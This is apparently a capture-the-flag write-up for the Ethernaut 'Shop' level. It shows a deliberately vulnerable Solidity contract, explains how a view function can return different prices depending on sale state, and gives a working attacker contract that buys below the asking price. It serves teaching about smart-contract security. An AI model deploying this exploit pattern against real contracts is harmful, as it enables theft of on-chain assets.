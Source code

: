 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel21.svg)

Сan you get the item from the shop for less than the price asked?

##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Solution:
The `buy()` function is checking if the price value returned by the Buyer interface is greater than the price defined (100) and if the product is already sold. If the `if` statement validation goes through, the `isSold` is set to `true`, and the price is set to the new price returned by the Buyer interface.

The contract defines an interface called `Buyer` but the buy function is using `msg.sender`'s address to create an instance. This means that we can deploy an attacker contract with a `price()` function in it and it will be called by the `buy()` function when checking the price.

Something which should be observed here is that the `price()` is a view function, i.e., it can not change the state so we can not maintain a state variable as we did in the [Elevator](https://blog.dixitaditya.com/ethernaut-level-11-elevator) but we can make external calls to functions that are view or pure.

Therefore, to return two values from our `price()` function, we can make it return values based on the variable `isSold`.

```sol
function price () external view returns (uint) {
    return level21.isSold() ? 1 : 101;
}
```

---
## The Exploit

Let's take a look at the exploit code:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
  function isSold() external view returns(bool);
  function buy() external;
}

contract PWN {
  IShop instance;
  constructor(address _instance) {
    instance = IShop(_instance);
  }

  function pwn() external {
    instance.buy();
  }
  
  function price () external view returns (uint) {
    return instance.isSold() ? 1 : 101;
  }
}
```

